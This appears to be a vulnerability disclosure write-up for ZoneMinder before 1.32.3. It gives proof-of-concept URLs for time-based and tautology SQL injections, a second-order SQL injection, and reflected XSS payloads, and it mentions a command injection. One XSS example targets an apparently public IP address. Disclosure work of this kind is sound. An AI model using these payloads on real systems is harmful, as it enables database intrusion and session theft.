






# zoneminder vul before v1.32.3

标签（空格分隔）： 0day

---

The following vulnerability information comes from the zoneminder release version is probably 1.32.0, the code structure has changed in 1.32.3, some of the code has changed, but the following vulnerabilities have not been fixed, need to find in 1.32.3 Corresponding code location and not absolutely the following description location


The progress of these vulnerabilities  [https://github.com/ZoneMinder/zoneminder/issues/2399](https://github.com/ZoneMinder/zoneminder/issues/2399) is constantly being updated.

# skins/classic/views/events.php line 44 sql injection

```
skins/classic/views/events.php line 44
```

![image.png-227.7kB][1]

```
parameter $_REQUEST['filter'] from function parseFilter

includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']

in 1.32.3,This part of the variable is changed to $terms[$i]['cnj'] and the terms are from $filter['Query']['terms'] in line 1035
```
![image.png-98.7kB][3]

in the above figure parameter countSql or eventsSql can be injected

poc in 1.32.3
```
index.php?view=events&page=1&filter[Query][terms][0][attr]=MonitorId&filter[Query][terms][0][op]=%3D&filter[Query][terms][0][val]=1&filter[Query][terms][0][cnj]=1%2b1)and%20sleep(3)%23
```

The following information is the same, you need to adapt the corresponding version.





# sql query error Reflected xss

when sql query error, sql error and message will be displayed without any validated, sanitised or output encoded.

```
includes/database.php line 120
```
![image.png-112.8kB][4]

if sql query without any validated, sanitised or output encoded and can be modifyed, it will lead to xss vulnerability.

```
https://95.143.216.108/zm/index.php?view=events&page=1&filter[terms][0][attr]=MonitorId&filter[terms][0][op]=%3D&filter[terms][0][val]=1&filter[terms][0][cnj]=1432%3Cimg/src=/%20onerror=alert`1`%3E
```
![image.png-133.7kB][5]

# skins/classic/views/control.php line 35 second order sqli

control.php line 35 

parameter `$groupSql` is detected from the database and directly spliced into the sql query statement.

![image.png-143.7kB][6]

from `includes/action.php line 748 $monitors` insert into database

![image.png-273.6kB][7]

first insert evil statement into database and select it to sql injection

poc
```
Step1:
index.php?action=group

newGroup[MonitorIds][]=1&newGroup[MonitorIds][]=2') or sleep(3)#&newGroup[Name]=132

Step2:
http://127.0.0.1/zoneminder/www/?view=control&mid=1&group={groupid}
```
Normal time


injected time


# skins/classic/views/controlcap.php Reflected xss

Most of the variables below controlcap.php are not filtered. This variable is passed directly from the mid.

![image.png-508.9kB][8]

poc
```
?view=controlcap&newControl[MinTiltRange]=2333%22/%3E%3Cimg/src=/%20onerror=alert(1)%3E
```

# includes/functions.php daemonControl command injection

![image.png-92.9kB][9]

# ajax/status.php line 276 orderby sql injection

![image.png-157.5kB][10]

poc
```
http://127.0.0.1/zoneminder/www/?request=status&entity=monitor&element=id&id=1&sort=123
```
Normal time


injected time


# ajax/status.php line 393 sql injection

there is two sql injection in `ajax/status.php line 393 and line 406`

![image.png-355.7kB][11]

```
includes/functions.php line 1401 parameter sql come from $filter['terms'][$i]['cnj'] or $filter['terms'][$i]['obr']
```
![image.png-98.7kB][3]
```
index.php?request=status&entity=nearevents&element=id&id=13&layout=text&filter[Query][terms][0][cnj]=233)%20||1=1%23
```


  [1]: http://static.zybuluo.com/LoRexxar/ufoe8ar8rbq8nh505anfeiai/image.png
  [2]: http://static.zybuluo.com/LoRexxar/7ikqrdkra6d0rlau66nrctco/image.png
  [3]: http://static.zybuluo.com/LoRexxar/l8hgggewmbgowwxni3bdtffb/image.png
  [4]: http://static.zybuluo.com/LoRexxar/ignq5yfbbpblxz0wbak2uopc/image.png
  [5]: http://static.zybuluo.com/LoRexxar/uot1uzz7w8dqh10ucvs2u1ou/image.png
  [6]: http://static.zybuluo.com/LoRexxar/jgjix7qr8cmsrvfme8qpk57z/image.png
  [7]: http://static.zybuluo.com/LoRexxar/opgka8vbesefdh664yjfvr9n/image.png
  [8]: http://static.zybuluo.com/LoRexxar/4ra29cgr35a6tr4zarudua48/image.png
  [9]: http://static.zybuluo.com/LoRexxar/6bcj24neh6rubbyx547n25ps/image.png
  [10]: http://static.zybuluo.com/LoRexxar/gvvxxgmkk5g1bn425tva31tz/image.png
  [11]: http://static.zybuluo.com/LoRexxar/luo7z0r5w7r8ddi3rsro8gar/image.png
  [12]: http://static.zybuluo.com/LoRexxar/7ikqrdkra6d0rlau66nrctco/image.png